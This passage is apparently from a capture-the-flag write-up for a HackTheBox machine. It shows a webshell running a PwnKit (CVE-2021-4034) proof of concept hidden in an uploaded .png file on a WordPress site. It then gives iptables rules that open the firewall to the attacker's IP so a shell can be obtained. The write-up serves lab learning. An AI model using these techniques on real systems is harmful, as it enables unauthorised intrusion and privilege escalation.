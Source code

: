 ```

oxdf@hacky$ ./webshell.sh 'bash /var/www/html/wp-content/uploads/2022/02/pkwner.png'
██████╗ ██╗  ██╗██╗    ██╗███╗   ██╗███████╗██████╗ 
██╔══██╗██║ ██╔╝██║    ██║████╗  ██║██╔════╝██╔══██╗
██████╔╝█████╔╝ ██║ █╗ ██║██╔██╗ ██║█████╗  ██████╔╝
██╔═══╝ ██╔═██╗ ██║███╗██║██║╚██╗██║██╔══╝  ██╔══██╗
██║     ██║  ██╗╚███╔███╔╝██║ ╚████║███████╗██║  ██║
╚═╝     ╚═╝  ╚═╝ ╚══╝╚══╝ ╚═╝  ╚═══╝╚══════╝╚═╝  ╚═╝
CVE-2021-4034 PoC by Kim Schulz
[+] Setting up environment&#8230;
[+] Build offensive gconv shared module&#8230;
[+] Build mini executor&#8230;
8620df0d9701b220a6fcbc207fca5cc1
hello[+] Nice Job

```

### Shell

To get a shell, there are a few things I could try. One idea would be to script a forward shell. I’ve shown this before (though not in a while) in [Stratosphere](/2018/09/01/htb-stratosphere.html#building-a-shell) and [Scavenger](/2020/02/29/htb-scavenger.html#stateful-shell).

I’m going to take a different tact today and enumerate and `iptables` and poke a hole for myself.

I managed to succeed using these two commands:

```

iptables -A OUTPUT -p tcp -d 10.10.14.6 -j ACCEPT
iptables -A INPUT -p tcp -s 10.10.14.6 -j ACCEPT

```

Here’s the [video](https://www.youtube.com/watch?v=9xX2ASQgpSU):